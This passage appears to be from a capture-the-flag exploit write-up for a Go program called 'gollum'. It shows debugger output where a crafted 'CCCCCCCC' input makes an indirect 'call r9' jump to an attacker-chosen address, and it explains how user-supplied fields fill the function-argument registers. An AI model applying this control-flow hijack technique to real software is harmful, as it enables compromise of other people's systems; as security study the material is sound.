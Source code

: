 ```
[?] Please, enter password protection mode: sha256
[DEBUG] Added credential entry {0c6***574}

Thread 1 "gollum" received signal SIGSEGV, Segmentation fault.
```

Notice the `call r9` instruction which caused the segfault:

```
     0x49b48e <gollum/models.Credential.String+78> mov    rbx, QWORD PTR [rsp+0x50]
     0x49b493 <gollum/models.Credential.String+83> mov    r9, QWORD PTR [rdi]
     0x49b496 <gollum/models.Credential.String+86> mov    rdx, rdi
 →   0x49b499 <gollum/models.Credential.String+89> call   r9
     0x49b49c <gollum/models.Credential.String+92> nop    DWORD PTR [rax+0x0]
     0x49b4a0 <gollum/models.Credential.String+96> cmp    rbx, 0x3
     0x49b4a4 <gollum/models.Credential.String+100> jb     0x49b4d4 <gollum/models.Credential.String+148>
     0x49b4a6 <gollum/models.Credential.String+102> lea    r8, [rbx+rax*1]
     0x49b4aa <gollum/models.Credential.String+106> lea    r8, [r8-0x3]
```

Let's look at the registers:

```
$rax   : 0x3
$rbx   : 0x000000c0000ae040  →  "DDDDDDDD\n"
$rcx   : 0x8
$rdx   : 0x000000c000018106  →  "CCCCCCCC\n"
$rsp   : 0x000000c0000791c8  →  0xc1b093dfcccaa2a2
$rbp   : 0x000000c000079200  →  0x000000c000079270  →  ...
$rsi   : 0x8
$rdi   : 0x000000c000018106  →  "CCCCCCCC\n"
$rip   : 0x000000000049b499  →  <gollum/models.Credential.String+89> call r9
$r8    : 0x2
$r9    : 0x4343434343434343 ("CCCCCCCC"?)
$r10   : 0x1a
$r11   : 0x000000c0000b6000  →  "[DEBUG] Added user entry {ntry {0c6***574}\n comma[...]"
$r12   : 0x0
$r13   : 0x19
$r14   : 0x000000c0000061a0  →  0x000000c000078000  →  0x0000000000000000
$r15   : 0x40
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00
```

It calls the `0x4343434343434343` ("CCCCCCCC") address. Go passes the function arguments in the registers `rax`, `rbx`, `rcx` and `rdx`, and we immediately got the control over the function arguments:

```
rax -> 0x3 (user ID)
rbx -> 0x000000c0000ae040  →  "DDDDDDDD\n" (user name)
rcx -> 0x8 (user name length)
rdx -> 0x000000c000018106  →  "CCCCCCCC\n" (user description)
```
